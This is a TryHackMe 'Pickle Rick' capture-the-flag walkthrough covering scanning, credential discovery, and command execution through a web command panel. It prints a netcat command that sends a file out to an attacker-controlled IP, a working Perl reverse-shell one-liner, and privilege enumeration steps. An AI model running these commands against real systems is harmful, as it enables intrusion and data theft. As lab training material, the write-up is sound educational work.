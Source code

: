 # Pickle Rick

**Tools: nmap, dirsearch, netcat.**

Because TryHackMe's machines don't have specific IPs assigned to them (and I had to restart my instance during the CTF, thus changing its IP), I'll simply use \<targetIP> where you should put the target's IP.

We begin with the nmap scan:  
`nmap -Pn -sC -sV --min-rate=10000 <targetIP>`

![Pickle-Rick](../Images/thm_pickle-rick_2.png)

Ports 22 (SSH) and 80 (HTTP) are open. Taking a look at the webpage, we see the following:

![Pickle-Rick](../Images/thm_pickle-rick_3.png)

So we're tasked with finding 3 flags (ingredients). Looking at the page's source, we also see this:

![Pickle-Rick](../Images/thm_pickle-rick_4.png)

We'll save the username for later. Now we can run a fuzzer, such as dirsearch:  
`dirsearch -u http://<targetIP>`

![Pickle-Rick](../Images/thm_pickle-rick_5.png)
  
The robots.txt file shows us 'Wubbalubbadubdub'. The login.php brings us a login form, we can try to authenticate using the username we've just found, and maybe the string from the robots file as the password...
  
![Pickle-Rick](../Images/thm_pickle-rick_6.png)
  
We're able to login with those credentials. In the webpage we see a Command Panel. In the www-data user root directory, we can see a txt file containing a 'super secret ingredient', which we can read directly from the browser - this is our first ingredient.  
`http://<targetIP>/Sup3rS3cretPickl3Ingred.txt`

![Pickle-Rick](../Images/thm_pickle-rick_7.png)
  
For the next steps, keep in mind that the 'cat' command is disabled for this command panel, so we can't easily read the files. After some manual enumeration, I found the 'second ingredients' file at /home/rick, so I've managed to send this file to my VM through a quick netcat reverse shell.

In your machine start a netcat session:  
`nc -vnlp 9003 > file.txt`

![Pickle-Rick](../Images/thm_pickle-rick_8.png)

Then in the command panel:  
`/bin/sh | nc <yourIP> 9003 < /home/rick/'second ingredients'`

![Pickle-Rick](../Images/thm_pickle-rick_9.png)

Simply read the file.txt to grab the second ingredient.  
Using sudo -l shows us that we can run everything with 'sudo'.

![Pickle-Rick](../Images/thm_pickle-rick_10.png)

I've tried quite a few creative ways to grab the flag from the command panel, but nothing worked. I've decided to start a reverse shell.  
In your machine start a netcat session:  
`nc -vnlp 9003`

Then in the command panel, you can run this perl revshell (just change the IP to your VPN's IP):  
```
perl -e 'use Socket;$i="<yourIP>";$p=9003;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![Pickle-Rick](../Images/thm_pickle-rick_11.png)

Now with the reverse shell in our machine, we can spawn a fully interactive shell (for the sake of it, I always do this):  
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now, after some previous enumeration, I've seen that inside the /home/ubuntu there are some hidden files (which we can see by using the 'ls -la' command), one of them is the .bash_history, and if we read this file we'll be able to grab the 3rd ingredient.  
`cat /home/ubuntu/.bash_history`

Another way of doing this is by reading the txt file from the '/root' directory.
